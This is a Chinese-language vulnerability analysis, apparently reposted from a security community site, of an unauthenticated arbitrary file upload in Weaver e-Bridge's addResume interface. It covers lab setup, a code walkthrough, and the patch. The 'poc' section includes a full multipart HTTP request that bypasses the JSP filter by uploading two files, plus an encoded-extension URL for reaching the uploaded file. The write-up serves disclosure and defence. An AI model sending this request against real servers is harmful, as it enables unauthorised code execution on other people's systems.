







# 泛微云桥e-Bridge任意文件上传漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/16172  
> **文章ID**: 16172

---

### 漏洞描述

泛微云桥e-Bridge接口addResume存在任意文件上传漏洞，攻击者可以在未授权的情况下获取服务器权限。

### 环境搭建

官网下载安装包：<https://wxdownload.e-cology.com.cn/ebridge/ebridge_install_win64_server2008R2_20200819.zip，解压目录如下，第一次运行需要打补丁后才能登录>



下载补丁：

jdk：<https://wxdownload.e-cology.com.cn/ebridge/jdk-8u172-windows-x64.zip>

web补丁：<https://wxdownload.e-cology.com.cn/ebridge/ebridge_patch_20230724.zip>

下载之后全覆盖tomcat目录，并替换jdk版本  


管理员权限运行install64.bat 和 start.bat，访问<http://127.0.0.1:8088/login>



### 漏洞分析

搜索路由/addResume，定位代码weaver/weixin/app/recruit/controller/ResumeController.java，判断ContentType类型，如果是文件上传类型，则传入参数wxBaseFileService和fileElementId，调用BaseController#getWxBaseFile方法上传文件  


跟进BaseController#getWxBaseFile，并没有传入filePath，所以调用FileUploadTools.getRandomFilePath()获取路径



跟进FileUploadTools.getRandomFilePath()，调用initFilePath方法，接受一个可选的前缀路径参数 prePath。如果 prePath 为 null 或空字符串，则使用默认前缀，最后调用getUpEng，返回一个随机文件路径

```
public static String getUpEng() {
   Random r = new Random();
   char c = (char)(r.nextInt(26) + 65);
   char b = (char)(r.nextInt(26) + 65);
   return String.valueOf(c) + String.valueOf(b);
}

```



获取文件大小和文件编码，然后调用Jfinal的Controller#getFile方法，然后调用getFiles方法，在调用MultipartReques中的wrapMultipartRequestt方法处理文件上传请求和文件保存路径



跟进MultipartRequest#wrapMultipartRequest方法，判断文件路径创建文件夹，获取文件名，调用com.oreilly.servlet.MultipartRequest保存文件，然后if判断文件保存路径和文件名，关键点在if语句的判断。


在官网看下com.oreilly.servlet.MultipartRequest代码如下，这里省略了一部分，[完整代码在这](https://github.com/jfinal/cos/blob/master/src/main/java/com/oreilly/servlet/MultipartRequest.java)，下面逻辑是循环上传时候传的每个参数，如果是文件，就会直接上传到给定的dir

```
public MultipartRequest(HttpServletRequest request,
                          String saveDirectory,
                          int maxPostSize,
                          String encoding,
                          FileRenamePolicy policy) throws IOException {
......................................................................
    MultipartParser parser =
      new MultipartParser(request, maxPostSize, true, true, encoding);
  ..................................................................

    Part part;
    while ((part = parser.readNextPart()) != null) {
      String name = part.getName();
      if (name == null) {
        throw new IOException(
          "Malformed input: parameter name missing (known Opera 7 bug)");
      }
........................................................................
      else if (part.isFile()) {
        FilePart filePart = (FilePart) part;
        String fileName = filePart.getFileName();
        if (fileName != null) {
          filePart.setRenamePolicy(policy);
          filePart.writeTo(dir);
          files.put(name, new UploadedFile(dir.toString(),
                                           filePart.getFileName(),
                                           fileName,
                                           filePart.getContentType()));
        }
        else { 
          files.put(name, new UploadedFile(null, null, null, null));
        }
      }
    }
  }

```

跟进isSafeFile方法，判断文件名，如果是jsp或者php文件则删除，上传完成后再对有问题的文件做删除，这里可以通过双文件上传绕过。

### 漏洞复现

poc

```
POST /wxclient/app/recruit/resume/addResume?fileElementId=H HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 361
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryD5Mawpg068t7pbxZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Connection: close

------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="1111.jsp"

<%out.print("11111");%>
------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="2222.jsp"

<%out.print("2222");%>
------WebKitFormBoundaryD5Mawpg068t7pbxZ--
```

访问<http://127.0.0.1:8088/upload/202408/PX/1111.js%70>

### 漏洞修复

升级补丁：<https://wxdownload.e-cology.com.cn/ebridge/ebridge_patch_20231116.zip>

在这个补丁中，直接删了这部分代码
